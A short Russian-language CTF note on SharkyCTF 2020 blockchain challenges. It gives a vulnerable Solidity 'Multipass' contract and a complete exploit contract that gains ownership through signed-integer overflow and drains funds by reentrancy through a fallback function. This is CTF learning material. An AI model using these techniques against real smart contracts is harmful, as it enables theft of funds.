 # Sharkyctf2020

Sharkyctf 2020 — был целый набор заданий DeFi на Solidity и были райтапы на них в разделе blockchain.

Writeup: [https://imagin.vip/?p=1380#Warmup](https://imagin.vip/?p=1380#Warmup)

Фишечки:

* На etherscan видны все изменения параметров контракта (заменяем на свой контракт)

```
https://ropsten.etherscan.io/tx/0x112db25adf343310ab34a8210532c513cd5c6e309b368c19f577c590a0149d23#statechange
```

Пример эксплоита на Solidity:

Пусть есть контракт (который будем атаковать)

```
pragma solidity = 0.4.25;
 
contract Multipass {
    address public owner;
    uint256 public money;
     
    mapping(address => int256) public contributions;
     
    bool public withdrawn;
     
    constructor() public payable {
        contributions[msg.sender] = int256(msg.value * 900000000000000000000);
        owner = msg.sender;
        money = msg.value;
        withdrawn = false;
    }
     
    function gift() public payable {
        require(contributions[msg.sender] == 0 && msg.value == 0.00005 ether);
        contributions[msg.sender] = int256(msg.value) * 10;
        money += msg.value;
    }
   
    function takeSomeMoney() public {
        require(msg.sender == owner && withdrawn == false);
        uint256 someMoney = money/20;
        if(msg.sender.call.value(someMoney)()){
            money -= someMoney;
        }
        withdrawn = true;
    }
     
    function contribute(int256 _factor) public {
        require(contributions[msg.sender] != 0 && _factor < 10);
        contributions[msg.sender] *= _factor;
    }
     
    function claimContract() public {
        require(contributions[msg.sender] > contributions[owner]);
        owner = msg.sender;
    }
}
```

И этот контракт расположен по адресу: 0x693282455c051D6CB3B138fD78474c8D9F7c8AFa

Тогда эксплоит будет выглядеть следующим образом (Обрати внимание, что чужой контракт инициализируется через адрес):

```
pragma solidity = 0.4.25;

import "./multipass.sol";

contract exp{
    Multipass x;
    constructor(){
        x = Multipass(0x693282455c051D6CB3B138fD78474c8D9F7c8AFa);
    }
     
    function prepare() public payable{
        x.gift.value(0.00005 ether)();
        // you need invoke this function twice
        x.contribute(-100000000000);
        x.contribute(-100000000000);
        // x.contribute(2);
    }
     
    function Claim(){
        x.claimContract();
    }
     
    function reEntry(){
        x.takeSomeMoney();
    }
     
    function() public payable{
        x.takeSomeMoney();
    }
     
     
}
```
